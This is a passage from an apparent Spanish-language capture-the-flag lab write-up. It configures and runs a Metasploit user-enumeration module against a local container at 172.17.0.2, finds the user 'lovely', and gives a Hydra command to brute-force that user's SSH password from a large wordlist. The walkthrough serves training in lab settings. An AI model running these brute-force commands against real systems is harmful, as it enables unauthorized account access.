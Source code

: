 </p>


Configuramos las opciones
```
set RHOSTS 172.17.0.2
set USER_FILE /usr/share/wordlists/rockyou.txt
```

<p align="center">
    <img src="../img/Pasted_image_20241231185907.png" width="500">
</p>


Ejecutamos el módulo
```
run
```

<p align="center">
    <img src="../img/Pasted_image_20241231185953.png" width="500">
</p>



Nos encuentra solo un usuario `lovely`, podemos hacer fuerza bruta con `HYDRA` o con el módulo de `metasploit` como `ssh_login`. Hacemos fuerza bruta con `HYDRA`, ya que el del módulo ya lo tenemos mas arriba de como se hace. Y así repasamos como podemos hacer fuerza bruta con `hydra` conociendo un  usuario
```
hydra -l lovely -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords.txt 172.17.0.2 -t 4 ssh
```

<p align="center">
    <img src="../img/Pasted_image_20250101092810.png" width="500">
</p>
